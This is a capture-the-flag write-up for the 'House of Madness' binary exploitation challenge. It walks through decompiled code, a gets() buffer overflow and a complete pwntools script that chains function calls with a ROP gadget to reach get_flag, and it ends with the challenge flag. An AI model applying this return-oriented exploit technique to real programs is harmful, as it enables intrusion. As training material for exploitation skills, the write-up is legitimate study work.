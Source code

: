 # House of Madness

## Description

> Welcome to the House of Madness. Can you pwn your way to the keys to get the relic?
> 
> nc challenges.auctf.com 30012
> 
> Note: ASLR is disabled for this challenge

The corresponding binary is given.

## Solution

Let's connect to the server and play a little bit with the game. We can enter rooms, get information about them. Most rooms are uninteresting, except room 4, which allow us to enter input and echoes it back. Plus when trying to quit the game, it prompts us to try to enter `Stephen` in room 4, and then we get to a hidden room, where we can also give an input.

![HouseMadness](../images/housemadness.png)

Let's reverse the binary with [Ghidra](https://ghidra-sre.org/) to find vulnerabilities. Most functions behave as they should, and there are no input vulnerabilities such as buffer overflow or format strings, except for the input we can insert in the hidden room.

```c
void room4(void)
{
  int iVar1;
  char local_2c [16];
  char local_1c [20];
  
  puts("Wow this room is special. It echoes back what you say!");
  while( true ) {
    if (unlockHiddenRoom4 != '\0') {
      puts("Welcome to the hidden room! Good Luck");
      printf("Enter something: ");
      gets(local_1c);
      return;
    }
    printf("Press Q to exit: ");
    fgets(local_2c,0x10,stdin);
    remove_newline(local_2c);
    printf("\tYou entered \'%s\'\n",local_2c);
    iVar1 = strcmp(local_2c,"Q");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_2c,"Stephen");
    if (iVar1 == 0) {
      unlockHiddenRoom4 = '\x01';
    }
  }
  return;
}
```

Indeed, input in the hidden room is read with `gets` which is vulnerable to buffer overflows. We see a function `get_flag`, so let's jump there with our buffer overflow.

Sadly this is not that easy, as several checks are performed before printing the flag. As the flag is opened before the checks, we cannot bypass them by jumping in the middle of function. So let's try to get those checks true.

```c
void get_flag(void)
{
  int iVar1;
  char local_60 [64];
  FILE *local_20;
  
  local_20 = fopen("flag.txt","r");
  if (local_20 == (FILE *)0x0) {
    puts("\'flag.txt\' missing in the current directory!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if ((((key1 != '\0') && (key2 != '\0')) && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) &&
     ((key4._4_4_ ^ 0x537472 | (uint)key4 ^ 0x616e6765) == 0)) {
    fgets(local_60,0x40,local_20);
    printf("Damn you beat the house: %s\n",local_60);
    return;
  }
  if (((key1 != '\0') && (key2 != '\0')) && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    printf("Surrender, Stephen. Surrender to the reverser");
    return;
  }
  if ((key1 == '\0') || (key2 == '\0')) {
    printf("It\'s not going to be that easy. Come on");
  }
  else {
    puts("You think you are ready? You are ready when the relic decides you are ready.");
  }
  return;
}
```

There are 4 steps:
- setting `key1` to a non zero value
- setting `key2` to a non zero value
- setting `key3` to `Dormammu`
- setting `key4` to a defined value.

Hopefully, we can see that several functions do this for us:

```c
void get_key1(int param_1)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  if ((*(char *)(iVar1 + 0x296b) == '\x01') || (param_1 != -0x1123f22)) {
    if (*(char *)(iVar1 + 0x296b) == '\x01') {
      if (*(char *)(iVar1 + 0x296b) == '\0') {
        puts((char *)(iVar1 + 0xcf6));
      }
      else {
        puts((char *)(iVar1 + 0xcd9));
      }
    }
    else {
      puts((char *)(iVar1 + 0xc76));
    }
  }
  else {
    *(undefined *)(iVar1 + 0x296c) = 1;
  }
  return;
}

void get_key2(void)
{
  int iVar1;
  
  if ((key1 != '\x01') && (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    key2 = 1;
    return;
  }
  puts("Need to get the right keys. Reverse the house harder");
  return;
}

void set_key4(void)
{
  int iVar1;
  
  if ((((isInRoom != '\x01') && (key1 != '\0')) && (key2 != '\0')) &&
     (iVar1 = strcmp(key3,"Dormammu"), iVar1 == 0)) {
    key4._0_4_ = 0x616e6765;
    key4._4_4_ = 0x537472;
    return;
  }
  puts("Need to get the right keys. Reverse the house harder");
  return;
}

void AAsDrwEk(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  *(int *)(iVar1 + 0x286b) = iVar1 + 0xc40;
  return;
}
```

So we can see that we need to call them in the correct order:
- first call `AAsDrwEk` to set `key3` (we see with a debugger that the string `Dormammu` is located at `iVar1 + 0xc40` and `iVar1 + 0x286b` is `key3`)
- second call is `get_key2` because it needs `key1` to not be `1`. It sets `key2` to `1`
- third call is to `get_key1`, and we should provide it an argument (on the stack) to be `0xfeedc0de`.
- fourth call is to `set_key4`, which require all previous arguments to be set in order to set `key4` to the correct value.
- last, we can call `get_flag`.

Therefore our payload to overflow the return address is the following:
- some characters to overflow the buffer, other local variables on the stack and the `ebp` pointer. Next value will be the return value.
- address of `AAsDrwEk`
- address of `get_key2`
- address of `get_key1`. We need to give it an argument, and by debugging we see that it fetches the value of the argument two values deeper in the stack
- this place will be the function called after `get_key1`. As we're pushing an argument on the stack, we want to remove it, so let's use a gadget here.
- `0xfeedc0de` as argument to `get_key1`
- address of `set_key4`
- address of `get_flag`

As we're pushing an argument on the stack, we'll want to pop it. To this end let's use a [gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) to pop a value on the stack.

To find one, we use [ROPGadget](https://github.com/JonathanSalwan/ROPgadget).

![ROPGadget](../images/housemadness_rop.png)

With this we find our gadget (we need to add the constant offset but this is known with `gdb`).

Finally we have our chain!

```python
from pwn import *

sh = remote("challenges.auctf.com", 30012)

# First get to hidden room
print(sh.recvuntil("Your choice:").decode())
sh.sendline("2")
print(sh.recvuntil("Choose a room to enter:").decode())
sh.sendline("4")
print(sh.recvuntil("Your choice:").decode())
sh.sendline("3")
print(sh.recvuntil("Press Q to exit:").decode())
sh.sendline("Stephen")
print(sh.recvuntil("Enter something:").decode())

# Craft payload

AAsDrwEk = 0x565567cd
get_key1 = 0x565566de
get_key2 = 0x5655676e
get_flag = 0x5655686b
popgadget = 0x5655601e
set_key4 = 0x565567e9
feedcode = 0xfeedc0de

payload = b'0'*28 + p32(AAsDrwEk) + p32(get_key2) + p32(get_key1) + p32(popgadget) + p32(feedcode) + p32(set_key4) + p32(get_flag)
print(payload)
sh.sendline(payload)
sh.interactive()
```

Flag: `auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}`